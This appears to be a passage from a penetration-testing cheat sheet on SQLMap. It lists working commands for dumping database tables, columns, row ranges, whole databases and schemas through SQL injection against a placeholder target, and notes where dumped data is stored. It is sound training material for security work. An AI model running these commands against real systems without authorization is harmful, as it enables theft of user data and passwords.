 **Dump Specific Columns:**

```bash
sqlmap -u "http://target.com/?id=1" --dump -T users -D testdb -C name,surname
```

**Dump Specific Row Range:**

```bash
sqlmap -u "http://target.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

**Dump with WHERE condition:**

```bash
sqlmap -u "http://target.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
### Full DB or Global Dumping

- `--dump -D <dbname>` → Dump all tables of a specific DB
- `--dump-all` → Dump entire contents of all DBs    
- `--exclude-sysdbs` → Skip system DBs (recommended for `--dump-all`)

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --dump-all --exclude-sysdbs
```
### Output Options

- Default output format: CSV   
- Alternative formats:
    - `--dump-format=html`
    - `--dump-format=sqlite`
### Notes

- Blind SQLi: data retrieved bit-by-bit using `LIMIT` and `OFFSET`    
- Inband SQLi: direct retrieval via `UNION` or error-based techniques
- Results stored at: `~/.local/share/sqlmap/output/<target>/dump/`

Use these switches to customize your enumeration based on access level, target DBMS, and goal (e.g., user discovery, password dumping, schema mapping).
# Advanced Database Enumeration with SQLMap

This section covers deeper enumeration strategies in SQLMap to extract sensitive or complex data structures.
### DB Schema Enumeration

- `--schema` → Retrieves structure (column names/types) of all tables across databases

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --schema
```
### Search for Tables and Columns
